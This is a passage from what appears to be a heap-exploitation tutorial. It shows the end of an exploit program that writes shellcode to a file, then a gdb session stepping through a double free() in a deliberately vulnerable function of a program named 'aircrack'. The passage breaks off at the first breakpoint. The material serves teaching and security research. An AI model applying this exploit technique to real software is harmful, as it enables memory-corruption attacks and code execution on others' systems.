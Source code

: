 
        fwrite(scode, sizeof(scode), 1, stdout);      /* THE MAGIC CODE  */

        return(0);
}

[-----]

Let's now see it in action:

[-----]

blackngel@linux:~$ gcc ploit1.c -o ploit
blackngel@linux:~$ ./ploit > file
blackngel@linux:~$ gdb -q ./aircrack

(gdb) disass fvuln
Dump of assembler code for function fvuln:
.........
.........
0x08049298 <fvuln+184>:	call   0x8048d4c <free@plt>
0x0804929d <fvuln+189>:	movl   $0x8056063,(%esp)
0x080492a4 <fvuln+196>:	call   0x8048e8c <puts@plt>
0x080492a9 <fvuln+201>:	mov    %esi,(%esp)
0x080492ac <fvuln+204>:	call   0x8048d4c <free@plt>
0x080492b1 <fvuln+209>:	movl   $0x8056075,(%esp)
0x080492b8 <fvuln+216>:	call   0x8048e8c <puts@plt>
0x080492bd <fvuln+221>:	add    $0x1c,%esp
0x080492c0 <fvuln+224>:	xor    %eax,%eax
0x080492c2 <fvuln+226>:	pop    %ebx
0x080492c3 <fvuln+227>:	pop    %esi
0x080492c4 <fvuln+228>:	pop    %edi
0x080492c5 <fvuln+229>:	pop    %ebp
0x080492c6 <fvuln+230>:	ret    
End of assembler dump.

(gdb) break *fvuln+204                         /* Before second free() */
Breakpoint 1 at 0x80492ac: file linux/aircrack.c, line 2302.

(gdb) break *fvuln+209                         /* After second free() */
Breakpoint 2 at 0x80492b1: file linux/aircrack.c, line 2303.

(gdb) run < file
Starting program: /home/blackngel/aircrack < file
[Thread debugging using libthread_db enabled]
ptr found at 0x807d008
good heap allignment found on malloc() 521 (0x8100048)

END fread()                 /* tests when free () freezing (mutex != 0) */
                        
END first free()            /* tests when free () freezing (mutex != 0) */
[New Thread 0xb7e5b6b0 (LWP 8312)]
[Switching to Thread 0xb7e5b6b0 (LWP 8312)]

Breakpoint 1, 0x080492ac in fvuln () at linux/aircrack.c:2302
warning: Source file is more recent than executable.
2302	        free(ptr2);
